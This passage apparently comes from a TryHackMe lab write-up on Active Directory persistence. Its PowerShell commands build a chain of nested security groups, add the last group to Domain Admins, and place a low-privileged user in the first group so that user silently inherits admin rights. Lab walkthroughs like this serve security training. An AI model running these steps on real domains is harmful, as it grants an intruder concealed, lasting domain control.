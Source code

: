 		New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "kakakseram Net Group 5" -SamAccountName "kakakseram_nestgroup5" -DisplayName "kakakseram Nest Group 5" -GroupScope Global -GroupCategory Security
		Add-ADGroupMember -Identity "kakakseram_nestgroup5" -Members "kakakseram_nestgroup4"
		```

		![task6-other-group](./images/task6-other-group.png)

	* Get the credential
	
		![task6-cred](./images/task6-cred.png)

	* Add last group to the Domain Admins group and add our low-privileged AD user to the first group
	
		```
		Add-ADGroupMember -Identity "Domain Admins" -Members "kakakseram_nestgroup5"

		Add-ADGroupMember -Identity "kakakseram_nestgroup1" -Members "sylvia.robinson"
		```

		![task6-user](./images/task6-user.png)

	* Verify Inherited Privileges
	
		![task6-verify](./images/task6-verify.png)
